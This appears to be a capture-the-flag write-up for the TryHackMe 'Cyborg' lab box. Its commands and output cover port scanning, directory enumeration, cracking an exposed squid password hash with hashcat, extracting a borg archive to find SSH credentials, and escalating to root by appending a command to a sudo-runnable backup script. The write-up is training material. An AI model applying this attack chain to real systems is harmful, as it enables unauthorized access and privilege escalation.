 # THM | Cyborg

A box involving encrypted archives, source code analysis and more.

![image-20210125203617103](Untitled.assets/image-20210125203617103.png)

------

[TOC]



### Namp scan :

```sh
└──╼ $nmap -vv -A 10.10.222.225
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-25 17:20 +01
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:20, 0.00s elapsed
Initiating Ping Scan at 17:20
Scanning 10.10.222.225 [2 ports]
Completed Ping Scan at 17:20, 0.21s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:20
Completed Parallel DNS resolution of 1 host. at 17:20, 0.07s elapsed
Initiating Connect Scan at 17:20
Scanning 10.10.222.225 [1000 ports]
Discovered open port 80/tcp on 10.10.222.225
Discovered open port 22/tcp on 10.10.222.225
Completed Connect Scan at 17:20, 18.36s elapsed (1000 total ports)
Initiating Service scan at 17:20
Scanning 2 services on 10.10.222.225
Completed Service scan at 17:20, 6.57s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.222.225.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:20
Completed NSE at 17:21, 8.70s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 1.07s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
Nmap scan report for 10.10.222.225
Host is up, received syn-ack (0.24s latency).
Scanned at 2021-01-25 17:20:29 +01 for 35s
Not shown: 995 closed ports
Reason: 995 conn-refused
PORT      STATE    SERVICE   REASON      VERSION
22/tcp    open     ssh       syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtLmojJ45opVBHg89gyhjnTTwgEf8lVKKbUfVwmfqYP9gU3fWZD05rB/4p/qSoPbsGWvDUlSTUYMDcxNqaADH/nk58URDIiFMEM6dTiMa0grcKC5u4NRxOCtZGHTrZfiYLQKQkBsbmjbb5qpcuhYo/tzhVXsrr592Uph4iiUx8zhgfYhqgtehMG+UhzQRjnOBQ6GZmI4NyLQtHq7jSeu7ykqS9KEdkgwbBlGnDrC7ke1I9352lBb7jlsL/amXt2uiRrBgsmz2AuF+ylGha97t6JkueMYHih4Pgn4X0WnwrcUOrY7q9bxB1jQx6laHrExPbz+7/Na9huvDkLFkr5Soh
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB5OB3VYSlOPJbOwXHV/je/alwaaJ8qljr3iLnKKGkwC4+PtH7IhMCAC3vim719GDimVEEGdQPbxUF6eH2QZb20=
|   256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlr5id6IfMeWb2ZC+LelPmOMm9S8ugHG2TtZ5HpFuZQ
80/tcp    open     http      syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
1500/tcp  filtered vlsi-lm   no-response
3006/tcp  filtered deslogind no-response
16016/tcp filtered unknown   no-response
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:21
Completed NSE at 17:21, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.51 seconds
```

1. Scan the machine, how many ports are open?                            

​	response : 2

2. What service is running on port 22?

​	response : ssh

3. What service is running on port 80?

​	response : http

### Dirsearch :

```sh
└──╼ $dirsearch -u 10.10.222.225 -e *

  _|. _ _  _  _  _ _|_    v0.4.0
 (_||| _) (/_(_|| (_| )

Extensions: * | HTTP method: GET | Threads: 20 | Wordlist size: 7140

Error Log: /home/itatshi/Desktop/tools/dirsearch/logs/errors-21-01-25_17-20-59.log

Target: http://10.10.222.225/

Output File: /home/itatshi/Desktop/tools/dirsearch/reports/10.10.222.225/_21-01-25_17-21-00.txt

[17:21:00] Starting: 
[17:21:08] 403 -  278B  - /.htaccess.bak1
[17:21:08] 403 -  278B  - /.htaccess.orig
[17:21:08] 403 -  278B  - /.htaccess.save
[17:21:08] 403 -  278B  - /.htaccess.sample
[17:21:08] 403 -  278B  - /.htaccessBAK
[17:21:09] 403 -  278B  - /.html
[17:21:09] 403 -  278B  - /.htm
[17:21:09] 403 -  278B  - /.htaccessOLD
[17:21:09] 403 -  278B  - /.htaccessOLD2
[17:21:09] 403 -  278B  - /.httr-oauth
[17:21:32] 301 -  314B  - /admin  ->  http://10.10.222.225/admin/
[17:21:33] 200 -    6KB - /admin/
[17:21:33] 200 -    6KB - /admin/?/login
[17:21:33] 403 -  278B  - /admin/.htaccess
[17:21:35] 200 -    6KB - /admin/index.html
[17:21:59] 301 -  312B  - /etc  ->  http://10.10.222.225/etc/
[17:22:06] 200 -   11KB - /index.html
[17:22:29] 403 -  278B  - /server-status
[17:22:29] 403 -  278B  - /server-status/
```

Browse to <machine-ip>/etc/ . you'll see :

![image-20210125205337915](Untitled.assets/image-20210125205337915.png)

go to squid/passwd .

create a file hash.txt and past the passwd hash inside it . then crack it using hashcat or john .

```sh
└──╼ $cat hash.txt 
$apr1$BpZ.Q.1m$F0****************QTTn.
└──╼ $hashcat -m 1600 hash.txt /opt/seclists/rockyou.txt 
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5-8250U CPU @ 1.60GHz, 5708/5772 MB (2048 MB allocatable), 8MCU

```

we will need that password later .

Browse to http://10.10.175.120/admin/ 

![image-20210125204342279](Untitled.assets/image-20210125204342279.png)

go to Archive>>Download and download the tar file .

extract it and browse it 

after reading the README file , you'll know that you have to install borg .

#### Install borg 

```sh
wget https://github.com/borgbackup/borg/releases/download/1.1.15/borg-linux64
sudo cp borg-linux64 /usr/local/bin/borg
sudo chown root:root /usr/local/bin/borg
sudo chmod 755 /usr/local/bin/borg
```

let's now extract the archive_music using borg .

```sh
└──╼ $borg list final_archive/
Enter passphrase for key /home/itatshi/Desktop/THM/cyborg/final_archive: 
music_archive                        Tue, 2020-12-29 15:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]
┌─[✗]─[itatshi@parrot]─[~/Desktop/THM/cyborg]
└──╼ $borg extract ./final_archive::music_archive
Enter passphrase for key /home/itatshi/Desktop/THM/cyborg/final_archive: 

```

we successfully extract it . let's go to home/alex/Documents

```sh
┌─[itatshi@parrot]─[~/Desktop/THM/cyborg/home/alex/Documents]
└──╼ $cat note.txt 
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3******3

```

we found alex password . let's ssh it now :

```sh
└──╼ $ssh alex@<machine-ip>
alex@10.10.175.120's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.15.0-128-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


27 packages can be updated.
0 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

alex@ubuntu:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
alex@ubuntu:~$ cat user.txt 

```

Boom , we got the user flag .

let's get the root flag now .

### Privilege Escalation :

```sh
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
alex@ubuntu:~$ id
uid=1000(alex) gid=1000(alex) groups=1000(alex),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)

```

we can run /etc/mp3backups/backup.sh as root :

let's use it to get the root flag .

```sh
cd /etc/mp3backups
chmod 777 backup.sh
echo "cat /root/root.txt > backed_up_files.txt" >> backup.sh
sudo ./backup.sh

```

let's now read the flag .

```sh
alex@ubuntu:/etc/mp3backups$ cat backed_up_files.txt 
flag{Th**************************053d}
alex@ubuntu:/etc/mp3backups$ 
```

Great , we found the root flag .

![image-20210125203205943](Untitled.assets/image-20210125203205943.png)

Happy Hacking.